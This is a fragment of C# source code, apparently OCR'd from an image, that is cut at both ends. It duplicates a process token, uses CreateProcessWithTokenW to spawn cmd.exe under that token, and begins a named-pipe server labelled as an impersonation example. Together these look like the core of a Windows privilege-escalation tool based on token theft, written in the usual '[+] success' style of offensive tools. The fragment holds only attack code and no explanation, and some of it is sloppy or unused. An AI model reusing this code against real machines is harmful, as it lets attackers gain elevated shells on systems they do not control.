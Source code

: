 ```
            int error = Marshal.GetLastWin32Error();
            string message = String.Format("DuplicateTokenEx Error: {0}", error);
            Console.WriteLine(message);
            return 101;
        }
        Console.WriteLine("[+] success duplicating process token ");

        String processpath = "C:\\Windows\\System32\\cmd.exe";

        PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
        STARTUPINFO si = new STARTUPINFO();

        if (!CreateProcessWithTokenW(newtoken, LOGON_WITH_PROFILE, null, processpath, NORMAL_PRIORITY_CLASS | CREATE_UNICODE_ENVIRONMENT, IntPtr.Zero, null, ref si, out pi))
        {
            Console.WriteLine("[!] failed create process with token ");
            int error = Marshal.GetLastWin32Error();
            string message = String.Format("CreateProcessWithTokenW Error: {0}", error);
            Console.WriteLine(message);
            return 102;
        }

        Console.WriteLine("[+] success create process with token");

        return 103;
    }
    public void CreateProcessVoid()
    {
        createprogress.CreateProgressTest();
    }
    public createprogress()
    {
        int bala = 0;
    }
    public void cmdexec() {
        string str = "whoami";

        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = "C:\\Windows\\System32\\cmd.exe";

        p.Start();//启动程序

    }

}

public class PipeServer
{
    private static int numThreads = 4;

    public static void Main()
    {
        int i;
        Thread[] servers = new Thread[numThreads];

        Console.WriteLine("\n*** Named pipe server stream with impersonation example ***\n");
        Console.WriteLine("Waiting for client connect...\n");
        for (i = 0; i < numThreads; i++)
        {
            servers[i] = new Thread(ServerThread);
            servers[i].Start();
        }
        Thread.Sleep(250);
```